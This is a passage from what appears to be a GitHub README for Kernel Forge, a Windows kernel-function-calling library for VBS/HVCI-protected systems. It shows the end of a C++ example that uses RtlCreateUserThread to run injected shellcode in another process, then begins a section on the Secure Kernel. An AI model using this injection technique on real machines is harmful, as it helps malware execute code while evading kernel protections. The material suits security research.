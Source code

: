 ```C++
    {
        goto _end;
    }    

    if (NT_ERROR(Status))
    {
        goto _end;
    }

    PVOID Args_4[] = { KF_ARG(hProcess),                    // ProcessHandle
                       KF_ARG(NULL),                        // SecurityDescriptor
                       KF_ARG(FALSE),                       // CreateSuspended
                       KF_ARG(0),                           // StackZeroBits
                       KF_ARG(NULL),                        // StackReserved
                       KF_ARG(NULL),                        // StackCommit
                       KF_ARG(ShellcodeAddr),               // StartAddress 
                       KF_ARG(NULL),                        // StartParameter
                       KF_ARG(&hThread),                    // ThreadHandle
                       KF_ARG(&ClientId) };                 // ClientId

    // create new thread to execute the shellcode
    if (!KfCall("RtlCreateUserThread", Args_4, 10, KF_RET(&Status)))
    {
        goto _end;
    }    

    if (NT_SUCCESS(Status))
    {
        // shellcode was successfully injected
        bRet = TRUE;
    }

_end:

    // uninitialize Kernel Forge library
    KfUninit();

    return bRet;
}
```

For more complete example please refer to the `kforge_example.exe` <a href="https://github.com/Cr4sh/KernelForge/blob/master/kforge_example/kforge_example.cpp">source code</a>.


## Interfacing Secure Kernel with Kernel Forge

On VBS/HVCI enabled machines Hyper-V functionality is employed to logically divide the system into the two separate "worlds": normal world (VTL0) running the NT kernel that we’re all familiar with and isolated secure world (VTL1) running a Secure Kernel (SK). To learn more about VBS/HVCI internals I recommend you the following materials:
